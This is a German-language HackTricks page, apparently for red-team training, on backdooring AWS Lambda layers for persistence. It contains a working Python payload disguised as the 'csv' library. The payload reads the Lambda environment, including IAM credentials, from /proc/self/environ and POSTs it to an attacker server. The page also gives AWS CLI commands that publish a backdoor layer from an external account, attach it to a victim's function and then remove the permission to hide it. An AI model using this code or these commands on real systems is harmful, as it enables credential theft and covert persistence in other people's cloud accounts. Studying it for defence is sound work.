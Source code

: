 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Lambda Layers

Ein Lambda-Layer ist ein .zip-Dateiarchiv, das **zusätzlichen Code** oder andere Inhalte **enthalten kann**. Ein Layer kann Bibliotheken, eine [benutzerdefinierte Laufzeit](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), Daten oder Konfigurationsdateien enthalten.

Es ist möglich, bis zu **fünf Layers pro Funktion** einzuschließen. Wenn Sie einen Layer in eine Funktion einfügen, werden die **Inhalte im Verzeichnis `/opt`** in der Ausführungsumgebung extrahiert.

Standardmäßig sind die **Layers**, die Sie erstellen, **privat** für Ihr AWS-Konto. Sie können wählen, ob Sie einen Layer mit anderen Konten **teilen** oder den Layer **öffentlich** machen möchten. Wenn Ihre Funktionen einen Layer verwenden, den ein anderes Konto veröffentlicht hat, können Ihre Funktionen **die Layer-Version weiterhin verwenden, nachdem sie gelöscht wurde oder nachdem Ihre Berechtigung zum Zugriff auf den Layer widerrufen wurde**. Sie können jedoch keine neue Funktion erstellen oder Funktionen mit einer gelöschten Layer-Version aktualisieren.

Funktionen, die als Container-Image bereitgestellt werden, verwenden keine Layers. Stattdessen verpacken Sie Ihre bevorzugte Laufzeit, Bibliotheken und andere Abhängigkeiten in das Container-Image, wenn Sie das Image erstellen.

### Python-Ladepfad

Der Ladepfad, den Python in Lambda verwenden wird, ist der folgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Überprüfen Sie, wie die **zweite** und dritte **Position** von Verzeichnissen eingenommen werden, in denen **Lambda-Schichten** ihre Dateien entpacken: **`/opt/python/lib/python3.9/site-packages`** und **`/opt/python`**

{% hint style="danger" %}
Wenn es einem Angreifer gelingt, eine verwendete Lambda **Schicht** zu **hintertüren** oder eine hinzuzufügen, die **beliebigen Code ausführt, wenn eine gängige Bibliothek geladen wird**, kann er mit jeder Lambda-Aufruf bösartigen Code ausführen.
{% endhint %}

Daher sind die Voraussetzungen:

* **Überprüfen Sie Bibliotheken**, die vom Code der Opfer **geladen** werden
* Erstellen Sie eine **Proxy-Bibliothek mit Lambda-Schichten**, die **benutzerdefinierten Code ausführt** und die **ursprüngliche** Bibliothek **lädt**.

### Vorgebundene Bibliotheken

{% hint style="warning" %}
Bei der Ausnutzung dieser Technik stieß ich auf eine Schwierigkeit: Einige Bibliotheken sind **bereits geladen** im Python-Laufzeit, wenn Ihr Code ausgeführt wird. Ich erwartete, Dinge wie `os` oder `sys` zu finden, aber **sogar die `json`-Bibliothek war geladen**.\
Um diese Persistenztechnik auszunutzen, muss der Code eine **neue Bibliothek laden, die nicht geladen ist**, wenn der Code ausgeführt wird.
{% endhint %}

Mit einem Python-Code wie diesem ist es möglich, die **Liste der Bibliotheken, die vorab geladen sind**, innerhalb der Python-Laufzeit in Lambda zu erhalten:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Und dies ist die **Liste** (überprüfen Sie, ob Bibliotheken wie `os` oder `json` bereits vorhanden sind)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Und dies ist die Liste der **Bibliotheken**, die **lambda standardmäßig installiert**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In diesem Beispiel nehmen wir an, dass der angezielte Code **`csv`** importiert. Wir werden **den Import der `csv`-Bibliothek backdooren**.

Um dies zu tun, werden wir das Verzeichnis **csv** mit der Datei **`__init__.py`** darin in einem Pfad erstellen, der von lambda geladen wird: **`/opt/python/lib/python3.9/site-packages`**\
Dann, wenn die lambda ausgeführt wird und versucht, **csv** zu laden, wird unsere **`__init__.py`-Datei geladen und ausgeführt**.\
Diese Datei muss:

* Unser Payload ausführen
* Die originale csv-Bibliothek laden

Wir können beides mit:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Dann erstellen Sie ein Zip-Archiv mit diesem Code im Pfad **`python/lib/python3.9/site-packages/__init__.py`** und fügen Sie es als Lambda-Schicht hinzu.

Sie finden diesen Code unter [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Die integrierte Payload wird **die IAM-Credentials an einen Server SENDEN, WENN sie das ERSTE MAL aufgerufen wird oder NACH einem Zurücksetzen des Lambda-Containers** (Änderung des Codes oder kaltes Lambda), aber **andere Techniken** wie die folgenden könnten ebenfalls integriert werden:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Externe Schichten

Beachten Sie, dass es möglich ist, **Lambda-Schichten von externen Konten** zu verwenden. Darüber hinaus kann ein Lambda eine Schicht von einem externen Konto verwenden, auch wenn es keine Berechtigungen hat.\
Beachten Sie auch, dass die **maximale Anzahl von Schichten, die ein Lambda haben kann, 5 beträgt**.

Daher könnte ein Angreifer, um die Vielseitigkeit dieser Technik zu verbessern:

* Eine bestehende Schicht des Benutzers backdooren (nichts ist extern)
* **Eine** **Schicht** in **seinem Konto** erstellen, dem **Opferkonto Zugriff** auf die Verwendung der Schicht gewähren, die **Schicht** im Lambda des Opfers **konfigurieren** und die **Berechtigung entfernen**.
* Das **Lambda** wird weiterhin in der Lage sein, die **Schicht zu verwenden**, und das **Opfer wird** keine einfache Möglichkeit haben, den **Code der Schichten herunterzuladen** (außer durch den Erhalt einer Reverse-Shell innerhalb des Lambdas)
* Das Opfer **wird keine externen Schichten** sehen, die mit **`aws lambda list-layers`** verwendet werden.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
